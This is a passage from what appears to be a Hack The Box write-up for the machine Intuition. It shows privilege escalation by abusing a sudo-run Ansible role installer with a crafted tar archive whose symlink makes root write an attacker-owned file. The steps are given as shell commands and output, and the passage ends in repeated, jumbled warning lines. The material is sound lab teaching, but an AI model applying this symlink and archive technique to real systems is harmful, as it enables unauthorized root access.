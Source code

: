 The issue is in the “extracting `/dev/shm/0xdf.tar` to `/dev/shm/0xdf.tar`” line. It’s got a directory where it stores roles, and it’s trying to append `/dev/shm/0xdf.tar` to that path (since Ansible is Python perhaps with the weird behavior where if the second thing joining starts with `/` it just loses the stuff before it as I exploited in [OnlyForYou](/2023/08/26/htb-onlyforyou.html#vulnerability-background)), and then fails.

I’ll just give the filename in the same directory:

```

lopez@intuition:/dev/shm$ echo '{"run": {"action": "install", "role_file": "0xdf.tar"}, "auth_code": "UHI75GHINKOP"}' > 0xdf.json
lopez@intuition:/dev/shm$ sudo /opt/runner2/runner2 0xdf.json 
Starting galaxy role install process
- extracting 0xdf.tar to /root/.ansible/roles/0xdf.tar
- 0xdf.tar was installed successfully
[WARNING]: Meta file /root/.ansible/roles/0xdf.tar is empty. Skipping dependencies.
lopez@intuition:/dev/shm/.0xdf$ ls -l root.json 
-rw-rw-r-- 1 lopez lopez 87 May  4 20:12 root.json

```

It worked! It’s extracting to a directory in `/root`, and `root.json` is created outside that directory.

#### Getting Correct Permissions

But there’s an issue - `root.json` is owned by lopez, not root. Looking back at the listing of the Tar archive, I can see it’s owned by lopez in there as well. The ownership is being preserved.

I’ll come back to my VM and get a shell running as root, create the script, and run it to create the archive:

```

root@hacky[~]# python create-role-archive.py 0xdf.tar ed25519_gen.pub /dev/shm/.0xdf/root
root@hacky[~]# tar -tvf 0xdf.tar 
-rw-r--r-- root/root         0 2024-05-04 16:31 tmp/tmpufykaa8z/meta/main.yml
lrwxrwxrwx root/root         0 2024-05-04 16:31 tmp/tmpufykaa8z/symlink -> /dev/shm/.0xdf/root
-rw------- root/root        96 2024-05-04 16:30 tmp/tmpufykaa8z/symlink

```

Not only is the ownership correct, but the permissions are also what I want the eventual target to be. I’ll transfer that to Intuition and run again, but it fails:

```

lopez@intuition:/dev/shm/.0xdf$ sudo /opt/runner2/runner2 0xdf.json 
Starting galaxy role install process
- extracting 0xdf.tar to /root/.ansible/roles/0xdf.tar
- 0xdf.tar was installed successfully
[WARNING]: Meta file /root/.ansible/roles/0xdf.tar is empty. Skipping dependencies.

```


[WARNING]: - /tmp/0xdf.tar was NOT installed successfully: this role does not appear to have a meta/main.yml file.
[WARNING]: - /tmp/0xdf.tar was NOT installed successfully: this role does not appear to have a meta/main.yml file.
[WARNING]: - /tmp/0xdf.tar was NOT installed successfully: this role does not appear to have a meta/main.yml file.
[WARNING]: - /dev/shm/0xdf.tar was NOT installed successfully: the specified roles path exists and is not a directory.
[WARNING]: Meta file /root/.ansible/roles/0xdf2.tar is empty. Skipping dependencies.
[WARNING]: Meta file /root/.ansible/roles/0xdf3.tar is empty. Skipping dependencies.